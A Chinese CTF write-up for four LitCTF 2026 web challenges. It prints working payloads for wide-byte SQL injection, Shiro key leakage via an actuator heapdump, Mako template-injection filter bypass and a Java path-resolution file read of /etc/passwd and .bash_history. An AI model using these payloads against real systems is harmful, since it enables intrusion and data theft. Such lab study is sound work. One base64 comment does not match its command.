








# Litctf2026复现

# WEB

## lit_ezsql

打开页面发现存在sql查询，传参为id



常规注入测试没有反应

```
?id=1' or '1'='1
?id=1 and 1=2 #
?id=0 union select 1,2,3,4,5 #
```

发现隐藏调试参数

```
/query?id=1&debug=1
```

页面会额外回显后端实际执行的 SQL语句



```
SELECT `id`,`name`,`col2`,`col3`,`col4` FROM `ezsql`.`users` WHERE id='1' LIMIT 50
```

看看单引号闭合的输入，观察实际执行的语句

```
1'%20or%20'1'%3D'1%26debug%3D1
```

发现回显的SQL实际执行语句变成了这样

```
SELECT `id`,`name`,`col2`,`col3`,`col4` FROM `ezsql`.`users` WHERE id='1\' or \'1\'=\'1' LIMIT 50
```

说明这里用了addslashes转义，这个函数会用反斜杠将输入的单引号转义导致闭合失败

这里可以使用宽字节注入绕过

```
%df%27
如果后端字符集是 GBK，并且先做了 addslashes 这类转义，那么 %df%27 会变成：

%df%5c%27
其中 %df%5c 在 GBK 下会被当成一个汉字的两个字节吃掉，于是原本用于转义的 \ 失效，后面的 ' 就重新变成了真正的闭合引号。
```

先测试一下

```
%df%27%20or%201=1%23&debug=1
```

可以看到返回了两条用户记录，注入确认成功。反斜杠也失效了



然后就是直接union联合查询注入拿到flag

```
回显位查询
/query?id=%df%27%20union%20select%201,2,3,4,5%23&debug=1
说明 5 列都可回显。


枚举数据库信息：
/query?id=%df%27%20union%20select%201,database(),user(),version(),5%23&debug=1
得到：
database() = ezsql
user() = ezsql@localhost
version() = 10.5.29-MariaDB-0+deb11u1


枚举表：
/query?id=%df%27%20union%20select%201,table_name,3,4,5%20from%20information_schema.tables%20where%20table_schema=database()%23&debug=1

得到两张表：
users
flag_store


枚举 flag_store 的列。这里如果直接写 'flag_store'，单引号又会被转义，所以用十六进制绕过：
flag_store -> 0x666c61675f73746f7265
payload：
/query?id=%df%27%20union%20select%201,column_name,ordinal_position,data_type,5%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=0x666c61675f73746f7265%23&debug=1

得到列：
id
flag
```

最后直接读flag

```
/query?id=%df%27%20union%20select%20id,flag,3,4,5%20from%20flag_store%23&debug=1
```

---

## 华辰企业服务运营平台

访问首页，发现是一个 Spring Boot 应用（从页面结构、JS 引用路径可判断）。

访问 `/actuator` 可见已暴露大量端点

- `/actuator/mappings`
- `/actuator/heapdump`
- `/actuator/env`
- `/actuator/beans`

### 非预期解

直接访问 `/actuator/env`，发现 flag 以明文形式存在于系统环境变量中：

```
http://challenge.cyclens.tech:30989/actuator/env
```

发现明文flag

```
flag{vc43ph19-1x30-4te-8yy3-pijg7oxzvpen7}
```

---

### 预期解

**heapdump 泄露 Shiro 关键参数**

actuator暴露`/actuator/heapdump`端点，访问

```
http://challenge.cyclens.tech:30989/actuator/headump
```

下载 `heapdump` 后检索关键字符串

```
Select-String -Path "C:\Users\Administrator\Desktop\heapdump" -Pattern "shiro.key"
```



得到

```
LAB_SHIRO_KEY_B64=R1pDVEZTaGlyb0dDTUtleQ==
LAB_SHIRO_ALG_MODE=GCM
```

说明 rememberMe Cookie 使用 Shiro AES-GCM 模式。

**利用 Shiro rememberMe 反序列化拿第一段 flag**

我这里用的是shiro漏洞利用工具，先检测密钥，检测利用链



使用泄露的 key + GCM 模式构造 rememberMe 反序列化 payload，执行命令

```
cat /flag_part1.txt
```

得到第一段flag

```
flag{vc43ph19-1x30-4t
```

---

从 `/actuator/mappings` 能发现业务接口较多，其中 `/api/admin/audit/list` 名称明显偏管理侧

登录界面使用普通用户登录，前端已经公开用户名为user

尝试弱口令user123作为密码成功登录

然后**垂直越权拿第二段 flag**

直接请求：

```
/api/admin/audit/list
```

接口仅校验登录态，未校验 admin 角色，返回 `items` 列表，其中 `legacy note` 字段包含 flag 后半段。

```
{"source":"audit-service","items":[{"id":"AR-8301","detail":"登录异地告警已人工复核为误报"},{"id":"AR-8302","detail":"数据库结构变更任务延后执行"},{"id":"AR-8303","detail":"历史归档备注: e-8yy3-pijg7oxzvpen7}"}]}
```

---

## lit_ezssti

打开首页发现很明显是模版注入



这题是Mako SSTI
使用常规的${}发现被waf了

```
${1+1}
```

并且`.`也被过滤了，并且 =、flag、[] 等字符也被限制

改用 <% %> 执行 Python 语句，尝试用 Mako 模板内部的 __M_writer 把结果写进输出缓冲。

**__M_writer 不是公共 API，而是 Mako 编译模板时生成/注入的内部输出函数；本题环境可用，因此能在不写点号和 ${} 的情况下完成文件读取回显。**	

**为什么不用print**

因为在mako中，直接使用<% print(1) %>命令打印不会输出 1，因为`print` 在 Mako 代码块中输出到标准输出（控制台），而不是模板输出缓冲区。

测试一下

```
<% __M_writer("1") %>
<% __M_writer(str(1)) %>
```

成功回显

然后就是绕过`.`和关键字过滤了，这里用chr拼接绕过关键字过滤

```
open("/flag")
open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103))


read()
chr(114)+chr(101)+chr(97)+chr(100)()
```

---

然后用getattr函数绕过`.`过滤

getattr函数支持这种调用

```
getattr(obj,method_name)()

obj：open("/flag")│  返回：文件对象  

getattr(文件对象, "read")
从文件对象中取出名为 "read" 的属性/方法    

然后调用
getattr(open("/flag"),read)()
```

完美绕过`.`过滤。

最终payload

```
<% __M_writer(getattr(open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)), chr(114)+chr(101)+chr(97)+chr(100))()) %>
```

得到flag



---

## Northbridge Document Hub

访问首页发现是个登录界面，然后查看网页源码发现前端信息泄露

```
<script src="/assets/js/portal.js"></script>
```

查看 `/assets/js/portal.js`，发现硬编码凭据：

```
var bootstrap = {
    auth: {
        mode: "legacy-fallback",
        // researcher:Research#2026
        seed: "cmVzZWFyY2hlcjpSZXNlYXJjaCMyMDI2"  // base64 编码的凭据
    },
    fileGateway: {
        path: "/kkfileview/getCorsFile",
        queryKey: "urlPath",
        node: "legacy-parse-02"
    }
};

```

Base64 解码得到：`researcher:Research#2026`

直接拿凭证去登录

```
username=researcher
password=Research#2026
```

302 重定向到 `/home`设置 `JSESSIONID` Cookie。



发现仪表盘，关键信息：

- **Cache Mount**: `/opt/kkfileview/cache/parsed`
- **Gateway Node**: `legacy-parse-02`
- **审计日志**: `doc/finance_2026q1.xlsx parse` → SUCCESS

---

前端信息泄露，泄露了kkFileView 兼容接口以及传参

```
fileGateway: {
        path: "/kkfileview/getCorsFile",
        queryKey: "urlPath",
        node: "legacy-parse-02"
    }
```

**访问 /kkfileview/getCorsFile，参数 urlPath 会被 Base64 解码后交给 KkPathResolver。代码意图是把非缓存目录路径强制拼到 /opt/kkfileview/cache/parsed 下，但 Paths.get(CACHE_ROOT).resolve(candidate) 遇到绝对路径时会保留 candidate 本身，导致可以读取任意绝对路径。**

```
package com.ctf.lab.util;

import java.nio.charset.StandardCharsets;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.util.Base64;

public class KkPathResolver {
    private static final String CACHE_ROOT = "/opt/kkfileview/cache/parsed";  // 缓存根目录

    public Path resolve(String encodedSource) {
        // Base64解码用户输入
        String decoded = new String(Base64.getDecoder().decode(encodedSource), StandardCharsets.UTF_8);

        // 将反斜杠替换为正斜杠
        String normalized = decoded.replace("\\", "/");
        // 查找问号的位置
        int queryIdx = normalized.indexOf('?');
        // 如果存在问号，截取问号前面的部分（移除URL参数）
        if (queryIdx >= 0) {
            normalized = normalized.substring(0, queryIdx);
        }
        // 如果以file://开头，移除这个协议前缀
        if (normalized.startsWith("file://")) {
            normalized = normalized.substring("file://".length());
        }

        // 创建Path对象并规范化（解析..和.）
        Path candidate = Paths.get(normalized).normalize();

        // 如果路径字符串不包含缓存目录特征
        if (!candidate.toString().contains("/opt/kkfileview/cache/")) {
            // 强制将路径解析到缓存目录下（存在漏洞）
            candidate = Paths.get(CACHE_ROOT).resolve(candidate).normalize();
        }

        // 返回最终路径
        return candidate;
    }
}
```

### candidate解释

 用户传入相对路径

```
// 输入：report.zip
// 期望输出：/opt/kkfileview/cache/parsed/report.zip

// 因为 "report.zip" 不包含 "/opt/kkfileview/cache/"
// 所以触发强制放置：Paths.get(CACHE_ROOT).resolve("report.zip")
// → /opt/kkfileview/cache/parsed/report.zip 
```

用户传入缓存目录内的路

```
// 输入：/opt/kkfileview/cache/parsed/report.zip
// 期望输出：/opt/kkfileview/cache/parsed/report.zip

// 因为包含 "/opt/kkfileview/cache/"
// 所以不触发强制放置，直接使用原路径 
```

用户传入其他绝对路径

```
// 输入：/tmp/report.zip
// 期望输出：/opt/kkfileview/cache/parsed/tmp/report.zip

// 因为不包含目标字符串，强制放置到缓存目录下
// 防止访问缓存外的文件 
```

**实际发生的问题**

Java 的 `Path.resolve()` 方法有个关键特性：

```
// 当参数是绝对路径时，直接返回该绝对路径
Paths.get("/opt/cache").resolve("/etc/passwd")  
// 返回 "/etc/passwd" 而不是"/opt/cache/subdir/file"

所以导致能够读取到缓存目录外的文件
```

---

尝试读取/etc/passwd

```
# 读取 /etc/passwd
echo -n "file:///etc/passwd" | base64
# -> ZmlsZTovLy9ldGMvcGFzc3dk

curl -b cookies.txt "http://target/kkfileview/getCorsFile?urlPath=ZmlsZTovLy9ldGMvcGFzc3dk"
```

**成功读取**，说明存在SSRF漏洞，可以用file协议读取文件

**然后读取 Bash History**里面泄露 了kkFileView 缓存 zip 的文件名和路径。

```
# 读取 /root/.bash_history
echo -n "file:///root/.bash_history" | base64
# -> L3Jvb3QvLmJhc2hfaGlzdG9yeQ==
```

`.bash_history` 内容：

```
cd /opt/kkfileview/bin
./startup.sh --cache.dir=/opt/kkfileview/cache/parsed
java -jar kkFileView.jar --cache.dir=/opt/kkfileview/cache/parsed --forceUpdatedCache=true
cp /opt/kkfileview/cache/parsed/q1_finance_report_2026.zip /tmp/q1_finance_report_2026.zip
```

发现缓存中存在 `q1_finance_report_2026.zip` 文件。

**读取下载zip文件**

```
echo -n "file:///opt/kkfileview/cache/parsed/q1_finance_report_2026.zip" | base64
# -> ZmlsZTovLy9vcHQva2tmaWxldmlldy9jYWNoZS9wYXJzZWQvcTFfZmluYW5jZV9yZXBvcnRfMjAyNi56aXA=

curl -b cookies.txt "http://target/kkfileview/getCorsFile?urlPath=ZmlsZTovLy9vcHQva2tmaWxldmlldy9jYWNoZS9wYXJzZWQvcTFfZmluYW5jZV9yZXBvcnRfMjAyNi56aXA="
```

然后解压zip文件，在flag.txt中拿到flag


